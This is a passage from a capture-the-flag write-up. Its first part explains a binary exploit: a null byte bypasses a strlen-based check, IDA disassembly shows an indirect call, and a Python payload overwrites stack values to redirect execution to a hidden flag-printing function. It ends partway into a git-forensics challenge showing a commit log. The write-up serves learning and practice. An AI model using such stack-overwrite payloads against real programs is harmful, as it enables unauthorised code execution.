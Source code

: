 To bypass the email address validation is simple, we just insert null byte in the beginning of the input, the `strlen()` will consider the string's length is 0 and stop the checking.  

I try to overwrite the return address first, which cause the program crash. So I switch to the IDA view and check the assembly, here's what I found:
```
.text:08048A58                 sub     dword ptr [esp+78h], 1
.text:08048A5D                 mov     eax, [esp+78h]
.text:08048A61                 mov     eax, [esp+eax*4+30h]
.text:08048A65                 call    eax
```

So apparently before the main function end, it does something really interesting. The program took a value that store on the stack, do some calculation, and store it in the eax before calling it. If we can make the value that store at `[esp+78h]` 0, we can call whatever we want by controling the value store at `[esp+30h]`. But who should we call? After checking the text view in IDA Pro, I found that there's one function that IDA Pro didn't decompile it into pseudo code.  

```
.text:080486CC                 push    ebp
.text:080486CD                 mov     ebp, esp
.text:080486CF                 sub     esp, 58h
.text:080486D2                 mov     dword ptr [esp+0Ch], offset a_Flag ; "./flag"
.text:080486DA                 mov     dword ptr [esp+8], offset aCatS ; "cat %s"
.text:080486E2                 mov     dword ptr [esp+4], 32h
.text:080486EA                 lea     eax, [ebp-3Ah]
.text:080486ED                 mov     [esp], eax
.text:080486F0                 call    _snprintf
.text:080486F5                 lea     eax, [ebp-3Ah]
.text:080486F8                 mov     [esp], eax
.text:080486FB                 call    _system
.text:08048700                 leave
.text:08048701                 retn
```

So just overwrite the stack, make `eax` be calculated to `0x080486CC`, then we can get the flag by executing the `call eax` instruction. Here's the payload:

```python
payload = "123\n" # name
payload += "\x00\x00\x00\x00" # for bypassing strlen
payload += "A"*28 # padding
payload += "\xcc\x86\x04\x08" # esp+0x30, print flag function
payload += "A"*68 # padding
payload += "\x01\x00\x00\x00" # esp+0x78
```

# Misc
## TIM
We got a github page, so it's seems like a git/forensic challenge. After cloning the repository and check the git log, we found some intereting stuff. 
```
commit d444f3227636477902c4badc8e35a27cadab456c
Author: Abhay Rana <capt.n3m0@gmail.com>
Date:   Tue Mar 31 17:59:09 2015 +0530

    Adds flag

commit 009d01e1b04bf2bf2d9bebd666e8d167fae1dc1a
Author: Abhay Rana <me@captnemo.in>
Date:   Tue Mar 31 17:59:08 2015 +0530

    47
    
    
```